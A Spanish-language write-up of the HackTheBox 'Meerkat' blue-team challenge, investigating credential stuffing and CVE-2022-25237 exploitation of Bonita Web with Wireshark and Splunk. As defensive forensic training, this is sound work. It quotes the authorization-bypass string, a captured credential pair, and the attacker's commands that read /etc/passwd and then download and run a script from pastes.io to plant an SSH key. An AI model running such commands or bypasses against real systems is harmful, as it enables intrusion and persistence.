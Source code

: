 ```yaml
---
title: Meerkat
date: 2023-11-17 18:00:00 +/-TTTT
categories: [Threat Intel]
tags: [fácil, splunk, wireshark, threatintel, blue team]
img_path: /assets/sherlockresources/MEERKAT/
image: test.png
---
```


> Este es un reto de la sección Sherlocks en [HackTheBox](https://app.hackthebox.com/).
{: .prompt-tip}

## Escenario Sherlock

Como una startup de rápido crecimiento, Forela ha estado utilizando una plataforma de gestión empresarial. Por desgracia, nuestra documentación es escasa y nuestros administradores no son los más concienciados en materia de seguridad.

Como nuestro nuevo proveedor de seguridad, nos gustaría que echaras un vistazo a algunos PCAP y logs que hemos exportado para confirmar si hemos sido (o no) comprometidos.

## Recursos

![](Pasted image 20231117150146.png)

## Tareas

### Tarea 1 - Creemos que nuestro servidor de la Plataforma de Gestión Empresarial ha sido comprometido. Por favor, ¿Puedes confirmar el nombre de la aplicación que se está ejecutando?

Primero abrimos la captura PCAP con Wireshark y filtramos por el protocolo HTTP en la barra de filtros `http`.
![](Pasted image 20231117150557.png)

En los primeros paquetes tenemos mucha información valiosa:
* La comunicación entre `156.146.62.213` y `172.31.6.44`
* La petición a la URL `/bonita/portal/homepage`
* Respuestas del servidor con un **código 401 (Unauthorized)**, que sugiere que el "atacante" (aún no estamos seguros) trató de autenticarse repetidas veces, sin éxito.

> Si buscamos por Google vemos el nombre de la aplicación que se está ejecutando.
{: .prompt-tip}

![](Pasted image 20231117151008.png)

### Tarea 2 - Creemos que el atacante puede haber utilizado una sub-técnica de la categoría Brute Force. ¿Cuál es el nombre del ataque realizado?

Revisando el framework MITRE ATT&CK, vemos que la Técnica **Brute Force** se divide en cuatro sub-técnicas.
![](Pasted image 20231117151830.png)

**Password Guessing:**
Adversarios sin conocimiento previo de las credenciales legítimas dentro del sistema o entorno pueden adivinar las contraseñas para intentar acceder a cuentas.

**Password Cracking:**
Adversarios pueden utilizar el cracking de contraseñas para intentar recuperar credenciales utilizables, como contraseñas en texto plano o cuando se obtiene material de credenciales como hashes de contraseñas.

**Password Spraying:**
Adversarios pueden utilizar una sola contraseña o una pequeña lista de contraseñas de uso común en muchas cuentas diferentes para intentar obtener credenciales válidas.

**Credential Stuffing:**
Adversarios pueden utilizar credenciales obtenidas de filtraciones/brechas de seguridad para acceder a la organización víctima.

Por lo que tenemos que investigar cuál de ellas empleó el atacante a la hora de intentar pasar el login de `BonitaSoft`

Como queremos buscar por intentos de login fallidos, podemos filtrar por `http.request.method == POST` e investigar los paquetes enviados.
![](Pasted image 20231117160412.png)

Dentro de las peticiones vemos que el atacante intentó acceder utilizando credenciales existentes de la organización, por lo que realizó un **Credential Stuffing**

### Tarea 3 - ¿La vulnerabilidad explotada tiene asignado un CVE y de ser así, cúal?

Como además del archivo **PCAP** tenemos un archivo de **alertas** en formato JSON, podemos subir el archivo a nuestro software/SIEM favorito. En este caso utilizaré **Splunk**.

![](Pasted image 20231117163216.png)

Y tenemos un total de **789 eventos registrados**, de entre los cuales se encuentra una alerta con el campo `alert.metadata.cve{}`, que nos indica el **CVE** de la vulnerabilidad explotada.
![](Pasted image 20231117163314.png)

Además podemos ver que la IP que utilizó el atacante para el **Credential Stuffing** es diferente de esta, `138.199.59.221`

![](Pasted image 20231117165007.png)

> Investigando el **CVE** nos encontramos con que **Bonita Web 2021.2** se ve afectada por una **vulnerabilidad de evasión de autenticación/autorización** debido a un patrón de exclusión demasiado amplio utilizado en *RestAPIAuthorizationFilter*.
{: .prompt-tip}

Al añadir `;i18ntranslation` o `/../i18ntranslation/` al final de una URL, los usuarios sin privilegios pueden acceder a puntos finales de API privilegiados. Esto puede llevar a la **ejecución remota de código** abusando de las acciones privilegiadas de la API.

![](Pasted image 20231117163628.png)

### Tarea 4 - ¿Qué cadena se añadió a la ruta URL de la API para evitar el filtro de autorización mediante el exploit del atacante?

Como realizó una petición a la API podemos regresar a nuestra captura en Wireshark y filtrar por los campos `http && ip.src_host == 138.199.59.221 `
![](Pasted image 20231117165250.png)

En los primeros paquetes nos aparece la cadena que utilizó para evitar el filtro de autorización, `i18ntranslation`

### Tarea 5 - ¿Cuántas combinaciones de usuario/contraseña fueron utilizadas en el ataque Credential Stuffing?

Podemos filtrar por `ip.src == 156.146.62.213 && http.request.method == POST` para ver todas las peticiones donde se introdujo un usuario y contraseña en el login.

![](Pasted image 20231117170530.png)

Nos reporta 114 paquetes, pero tenemos que descontar aquellos que contienen los campos `install:install`.

![](Pasted image 20231117170622.png)

Como se encuentran de forma intercalada, podemos dividir los 114/2 y nos da 57 paquetes. Solo nos queda restar el paquete que contiene el protocolo HTTP/JSON para que nos dé el total de credenciales utilizadas en el ataque, `56`.

![](Pasted image 20231117170940.png)

### Tarea 6 - ¿Qué combinación de usuario y contraseña fue exitosa?

Como ya sabemos que el atacante/grupo empleó dos IP diferentes, una para realizar el **Credential Stuffing** `156.146.62.213` y otra para explotar la vulnerabilidad CVE-2022-25237 `138.199.59.221`, podemos filtrar por `http && ip.src == 138.199.59.221`

![](Pasted image 20231117171550.png)
Vemos que la primera credencial que utilizó para explotar la vulnerabilidad fue `seb.broom@forela.co.uk:g0vernm3nt`

### Tarea 7 - Si lo hubiera, ¿Qué sitio de intercambio de texto utilizó el atacante?

Si filtramos por `ip.src == 138.199.59.221 && http.request.method == GET`, para ver las peticiones GET que realizó el atacante nos encontramos con tres comandos ejecutados gracias a la vulnerabilidad en Bonita Web, entre ellos una petición a `pastes.io`.

![](Pasted image 20231117172556.png)

* cat /etc/passwd
* **wget https://pastes.io/raw/bx5gcr0et8**
* bash bx5gcr0et8

### Tarea 8 - Por favor, proporciona el hash del archivo del script utilizado por el atacante para obtener acceso persistente a nuestro host.

Si vemos lo que contiene la URL, nos encontramos con un script en Bash, que descarga otro archivo, lo agrega al final de `authorized_keys` y luego reinicia el servicio SSH, por lo que seguramente se trate de una clave pública.

![](Pasted image 20231117174341.png)

Podemos descargar el archivo (en un entorno virtualizado) con:
```bash
certutil -urlcache -f https://pastes.io/raw/bx5gcr0et8
```
y realizar un `Get-FileHash` con PowerShell:
```powershell
Get-FileHash -Algorithm MD5 bx5gcr0et8
```
![](Pasted image 20231117180635.png)

### Tarea 9 - Por favor, proporciona el hash del archivo de la clave pública utilizada por el atacante para obtener persistencia en nuestro host.

Empleando el mismo método, podemos ver que contiene la URL del primer script, logrando ver la **clave pública del atacante**.

Podemos descargarla de la misma manera que hicimos y obtener el hash MD5.
![](Pasted image 20231117181253.png)
![](Pasted image 20231117181432.png)

### Tarea 10 - ¿Puedes confirmar el archivo modificado por el atacante para ganar persistencia?

En el script se puede observar que almacena el archivo en `/home/ubuntu/.ssh/authorized_keys`

### Tarea 11 - ¿Puedes confirmar el ID de la técnica MITRE de este tipo de mecanismo de persistencia?

Viendo el framework MITRE ATT&CK dentro la táctica **Persistence**, y la técnica **Account Manipulation**, podemos ver la sub-técnica **SSH Authorized Keys** con el ID de `T1098.004`
![](Pasted image 20231117182330.png)

![](Pasted image 20231117182805.png)